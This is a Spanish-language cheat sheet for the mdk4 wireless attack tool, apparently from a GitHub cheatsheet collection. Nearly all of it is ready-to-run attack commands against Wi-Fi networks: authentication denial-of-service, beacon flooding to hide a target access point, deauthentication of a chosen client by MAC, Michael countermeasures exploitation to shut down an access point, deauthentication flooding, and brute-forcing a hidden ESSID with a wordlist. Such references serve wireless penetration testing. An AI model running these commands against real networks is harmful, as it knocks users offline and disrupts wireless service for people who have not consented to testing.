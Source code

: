# MDK4 Cheat Sheet

#### Ataque: *'Authentication Denial-Of-Service'* 
- Generar varias direcciones MAC para asociarlas a la AP y volver lenta la red para que el AP expulse a todos los clientes.
```
mdk4 <INTERFACE> a -a <BSSID-AP>
```

#### Ataque: *'Beacon Flooding'* 
- Generar puntos de acceso aleatorios y diferentes nombres en el canal del AP.
```
mdk4 <INTERFACE> b -c <CHANNEL-AP>
```
- Generar Montones de puntos de accesos en el mismo canal que el punto de acceso objetivo. Con esto logramos que quede fuera de la onda de espectro y que no lo pueda visualizar el usuario el AP objetivo.
```
for i in $(seq 1 10); do echo "WifiFree$i" >> File.txt; done

mdk4 <INTERFACE> b -f File.txt -a -s 1000 -c <CHANNEL-AP>
```
- Generar puntos de acceso con un solo nombre en distintos canales:
```
mdk4 <INTERFACE> b -n <AP-NAME> b -w nta -m
```

#### Ataque: *'Deauthentication and Disassociation'* 
- Desautenticar a un cliente y usando la dirección MAC del cliente victima.
```
echo "1F:2B:31:AC:A2:64" > blacklist.txt

mdk4 <INTERFACE> d -w blacklist.txt -c <CHANNEL-AP>
```

#### Ataque: *'Michael Countermeasures Exploitation'* 
- Se puede llegar a apagar el AP con este ataque.
```
mdk4 <INTERFACE> m -t <BSSID-AP>
```

#### Ataque: *'Dehautentication Flooding'*
- Enviará paquetes de autenticación a todos y cada uno de los clientes conectados al AP especificado
```
mdk4 <INTERFACE> d -c <CHANNEL-AP> -E <ESSID-AP> -B <BSSID-AP>
```

#### Ataque: *'Fuerza bruta para obtener el ESSID oculto de un AP'*
```
mdk4 <INTERFACE> p -t <BSSID-AP> -f <WORDLIST>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)